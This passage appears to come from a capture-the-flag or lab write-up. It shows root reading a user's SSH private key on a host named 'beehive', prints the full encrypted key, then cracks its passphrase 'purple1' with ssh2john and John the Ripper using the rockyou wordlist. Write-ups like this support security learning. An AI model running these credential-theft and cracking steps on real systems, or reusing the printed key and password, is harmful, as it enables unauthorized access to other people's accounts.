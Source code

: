 ```
root@beehive:/home/spanishdancer/.ssh# cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C3EBD8120354A75E12588B11180E96D5

2UIvlsa0jCjxKXmQ4vVX6Ez0ak+6r5VuZFFoalVXvbZSLomIya4vYETv1Oq8EPeh
KHjq5wFdlYdOXqyJus7vFtB9nbCUrgH/a3og0/6e8TA46FuP1/sFMV67cdTlXfYI
Y4sGV/PS/uLm6/tcEpmGiVdcUJHpMECZvnx9aSa/kvuO5pNfdFvnQ4RVA8q/w6vN
p3pDI9CzdnkYmH5/+/QYFsvMk4t1HB5AKO5mRrc1x+QZBhtUDNVAaCu2mnZaSUhE
abZo0oMZHG8sETBJeQRnogPyAjwmAVFy5cDTLgag9HlFhb7MLgq0dgN+ytid9YA8
pqTtx8M98RDhVKqcVG3kzRFc/lJBFKa7YabTBaDoWryR0+6x+ywpaBGsUXEoz6hU
UvLWH134w8PGuR/Rja64s0ZojGYsnHIl05PIntvl9hinDNc0Y9QOmKde91NZFpcj
pDlNoISCc3ONnL4c7xgS5D2oOx+3l2MpxB+B9ua/UNJwccDdJUyoJEnRt59dH1g3
cXvb/zTEklwG/ZLed3hWUw/f71D9DZV+cnSlb9EBWHXvSJwqT1ycsvJRZTSRZeOF
Bh9auWqAHk2SZ61kcXOp+W91O2Wlni2MCeYjLuw6rLUHUcEnUq0zD9x6mRNLpzp3
IC8VFmW03ERheVM6Ilnr8HOcOQnPHgYM5iTM79X70kCWoibACDuEHz/nf6tuLGbv
N01CctfSE+JgoNIIdb4SHxTtbOvUtsayQmV8uqzHpCQ3FMfz6uRvl4ZVvNII/x8D
u+hRPtQ1690Eg9sWqu0Uo87/v6c/XJitNYzDUOmaivoIpL0RO6mu9AhXcBnqBu3h
oPSgeji9U7QJD64T8InvB7MchfaJb9W/VTECST3FzAFPhCe66ZRzRKZSgMwftTi5
hm17wPBuLjovOCM8QWp1i32IgcdrnZn2pBpt94v8/KMwdQyAOOVhkozBNS6Xza4P
18yUX3UiUEP9cmtz7bTRP5h5SlDzhprntaKRiFEHV5SS94Eri7Tylw4KBlkF8lSD
WZmJvAQc4FN+mhbaxagCadCf12+VVNrB3+vJKoUHgaRX+R4P8H3OTKwub1e69vnn
QhChPHmH9SrI2TNsP9NPT5geuTe0XPP3Og3TVzenG7DRrx4Age+0TrMShcMeJQ8D
s3kAiqHs5liGqTG96i1HeqkPms9dTC895Ke0jvIFkQgxPSB6y7oKi7VGs15vs1au
9T6xwBLJQSqMlPewvUUtvMQAdNu5eksupuqBMiJRUQvG9hD0jjXz8f5cCCdtu8NN
8Gu4jcZFmVvsbRCP8rQBKeqc/rqe0bhCtvuMhnl7rtyuIw2zAAqqluFs8zL6YrOw
lBLLZzo0vIfGXV42NBPgSJtc9XM3YSTjbdAk+yBNIK9GEVTbkO9GcMgVaBg5xt+6
uGE5dZmtyuGyD6lj1lKk8D7PbCHTBc9MMryKYnnWt7CuxFDV/Jp4fB+/DuPYL9YQ
8RrdIpShQKh189lo3dc6J00LmCUU5qEPLaM+AGFhpk99010rrZB/EHxmcI0ROh5T
1oSM+qvLUNfJKlvqdRQr50S1OjV+9WrmR0uEBNiNxt2PNZzY/Iv+p8uyU1+hOWcz
-----END RSA PRIVATE KEY-----

```


This passoword is cracked easily, and we see the key is protected with the word `purple1`: 

```
$ ssh2john spanishdancer_key > john_spanishdancer_key
$ john --wordlist=/usr/share/wordlists/rockyou.txt john_spanishdancer_key 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status

purple1          (spanishdancer_key)

1g 0:00:00:00 DONE (2017-09-26 15:30) 33.33g/s 22200p/s 22200c/s 22200C/s purple1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
